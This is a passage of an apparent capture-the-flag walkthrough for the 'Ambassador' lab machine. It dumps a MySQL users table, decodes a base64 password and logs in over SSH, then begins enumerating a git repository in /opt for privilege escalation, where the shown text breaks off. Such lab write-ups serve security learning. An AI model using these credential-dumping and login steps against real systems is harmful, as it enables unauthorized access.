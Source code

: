 ```shell
+------------------------+
| users                  |
+------------------------+
1 row in set (0.046 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```

We have the developer password base64 encoded, let's just decode it and get our user flag.


```shell
$ echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
anEnglishManInNewYork027468
$ ssh developer@10.10.11.183
developer@10.10.11.183's password:
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)

developer@ambassador:~$
```

## Root flag

By using the usual check for privesc I found a strange directory in /opt. It is a git repository so I checked the older commits

```shell
$ cd /opt
developer@ambassador:/opt$ ls
consul  my-app
developer@ambassador:/opt$ cd my-app/
developer@ambassador:/opt/my-app$ ls -la
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1 22:13 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
developer@ambassador:/opt/my-app$ git log
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:47:01 2022 +0000

    created project with django CLI

commit 4b8597b167b2fbf8ec35f992224e612bf28d9e51
Author: Developer <developer@ambassador.local>
```